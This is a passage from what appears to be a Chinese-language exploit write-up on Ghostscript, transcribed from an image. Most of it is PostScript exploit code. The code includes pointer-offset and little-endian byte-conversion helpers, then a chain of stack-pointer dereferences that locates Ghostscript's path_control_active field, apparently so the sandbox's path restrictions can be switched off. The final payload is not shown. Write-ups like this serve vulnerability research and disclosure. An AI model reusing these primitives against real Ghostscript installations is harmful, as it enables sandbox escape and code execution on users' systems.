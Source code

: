 ```
% <Offset> <PtrHexStr> ptr_add_offset <PtrHexStr>
/ptr_add_offset {
  /PtrHexStr exch def % hex string pointer
  /Offset exch def % integer to add

  /PtrNum (16#) PtrHexStr cat cvi def

  % base 16, string length 12
  PtrNum Offset add 16 12 string cvrs
} bind def
```  
  
  
结果是一个十六进制字符串，但要将此值放入堆栈（记住，使用%%BB........注释），它需要是原始字节的字符串，并且反转（至少在小端系统上）。因此，我们编写了另一个辅助函数：  
  
```
% Convert hex string "4142DEADBEEF" to padded little-endian byte string "\xEF\xBE\xAD\xDE\x42\x41\x00\x00"
% <HexStr> str_ptr_to_le_bytes <ByteStringLE>
/str_ptr_to_le_bytes {
  % Convert hex string argument to Postscript string
  % using <DEADBEEF> notation
  /ArgBytes exch (<) exch (>) cat cat token pop exch pop def

  % Prepare resulting string (`string` fills with zeros)
  /Res 8 string def

  % For every byte in the input
  0 1 ArgBytes length 1 sub {
    /i exch def

    % put byte at index (len(ArgBytes) - 1 - i)
    Res ArgBytes length 1 sub i sub ArgBytes i get put
  } for

  Res % return} bind def
```  
  
  
如果这让您感到困惑，请不要担心，这只是自动化漏洞利用的管道。有了所有这些原语，我们可以使用和path_control_active链获取 Ghostscript 的地址：read_dereferenced_ptr_atptr_add_offset  
  
```
% Use primitives to obtain: &out->memory->gs_lib_ctx->core->path_control_active

/IdxOutPtr 5 def  % Position of `gp_file *out` on the stack
/PtrOut IdxOutPtr read_ptr_at def

% `memory` is at offset 144 in `out`
/PtrOutOffset 144 PtrOut ptr_add_offset def
/PtrMem IdxStackControllable PtrOutOffset read_dereferenced_ptr_at def

% `gs_lib_ctx` is at offset 208 in `memory`
/PtrMemOffset 208 PtrMem ptr_add_offset def
/PtrGsLibCtx IdxStackControllable PtrMemOffset read_dereferenced_ptr_at def

% `core` is at offset 8 in `gs_lib_ctx`
/PtrGsLibCtxOffset 8 PtrGsLibCtx ptr_add_offset def
/PtrCore IdxStackControllable PtrGsLibCtxOffset read_dereferenced_ptr_at def

% `path_control_active` is at offset 156 in `core`
/PtrPathControlActive 156 PtrCore ptr_add_offset def
```  
  